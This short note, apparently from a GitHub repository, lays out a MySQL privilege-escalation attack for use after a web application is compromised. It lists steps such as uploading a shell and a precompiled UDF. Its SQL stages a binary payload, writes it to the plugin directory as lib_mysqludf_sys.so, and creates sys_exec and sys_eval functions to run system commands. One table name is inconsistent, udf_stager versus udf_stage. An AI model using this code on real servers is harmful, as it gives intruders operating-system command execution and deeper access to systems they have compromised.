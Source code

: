 #. comprimised webapp
#. upload rc shell
#. upload precompiled UDF
#. use credentials of webapp / priveleged user

.. code:: sql

    create table udf_stager ( payload mediumblob ) Engine=InnoDB;
    INSERT INTO udf_stage VALUES ('<binary data>');
    SELECT @@GLOBAL.plugin_dir
    SELECT payload from udf_stager INTO DUMPFILE CONCAT(@@GLOBAL.plugin_dir,'/lib_mysqludf_sys.so');

.. code:: sql

    DROP FUNCTION IF EXISTS lib_mysqludf_sys_info;
    DROP FUNCTION IF EXISTS sys_get;
    DROP FUNCTION IF EXISTS sys_set;
    DROP FUNCTION IF EXISTS sys_exec;
    DROP FUNCTION IF EXISTS sys_eval;

    CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
    CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
    CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
    CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
    CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
